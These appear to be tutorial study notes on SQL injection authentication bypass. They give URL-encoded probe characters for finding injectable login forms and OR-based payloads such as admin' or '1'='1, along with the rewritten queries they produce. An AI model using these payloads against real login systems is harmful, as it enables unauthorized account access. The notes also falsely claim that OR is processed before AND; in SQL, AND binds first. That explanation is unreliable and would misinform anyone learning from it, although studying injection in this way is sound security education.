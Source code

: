 ```yaml
---
title: c-Subvert Query Logic
draft: false
tags:
---
```

Let's run how to modify the original query's logic by injecting the `OR` operator and using SQL comments. 

A basic example of this is bypassing web authentication.

## Authentication Bypass

Let's say on login form uses following SQL query for authenthentication:

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

## SQLi Discovery

Let's first test if the login form is vulnerable to SQL injection.

To do that, let's add one of the below payloads after our username and see if it causes any error:

|Payload|URL Encoded|
|---|---|
|`'`|`%27`|
|`"`|`%22`|
|`#`|`%23`|
|`;`|`%3B`|
|`)`|`%29`|

Let's say we injected `'` payload to the username form:

```sql
SELECT * FROM logins WHERE username=''' AND password = 'something';
```

We can see that there is an error because password is not handled correctly. 

## OR Injection

We need the query to always return true regardless of the username or password entered so that we can bypass authentication.

An example of condition that will always return true is `'1'='1'`.

We will use `'1'='1` so that we can keep even number of quotes.

If we inject the below condition:

```sql
admin' or '1'='1
```

Final query will be as follows:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

Above query will always result in `true` since `OR` operator is always processed before `AND` query.

What if we don't know the correct username?

We can inject `something' or '1'='1` as the password and it would work.

```sql
SELECT * FROM logins WHERE username='blah' or '1'='1' AND password = 'something' or '1'='1';
```
